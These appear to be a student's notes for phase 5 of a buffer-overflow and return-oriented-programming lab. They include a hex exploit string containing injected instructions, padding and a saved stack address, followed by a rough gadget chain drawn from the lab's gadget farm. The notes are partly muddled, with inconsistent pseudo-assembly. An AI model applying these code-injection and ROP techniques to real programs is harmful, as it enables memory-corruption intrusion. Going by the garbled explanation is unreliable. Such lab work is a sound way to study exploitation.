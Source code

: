 ### Phase5

The cookie in ASCII is: `35 39 62 39 39 37 66 61 00`

Old way is to pass the cookie as an rax into the register and move it into the stack memory address and called the memory address.

```assembly
\\\from phase_3, 0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
   
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00		;the stack address of the previous
35 39 62 39 39 37 66 61		;store this cookie on the test stack
00
```



```assembly
Idea is to make sure there is enough stack address that was able to get used in this case


;use below instructions to load the stack address of the rdi, rsi will be used to set as an offset
000000000000006a <add_xy>:
  6a:	f3 0f 1e fa          	endbr64 
  6e:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  72:	c3                   	retq   
  
; From the farm.asm file, only the instruction movl ecx,esi is being found, so we can only use this and pass around the registers
; next find only the 
mov edx, ecx
mov eax, edx
// after adding bias.
pop rax,
mov rax, rdi	;rdi will be the top address of the stack on test
mov rsp, rax


```
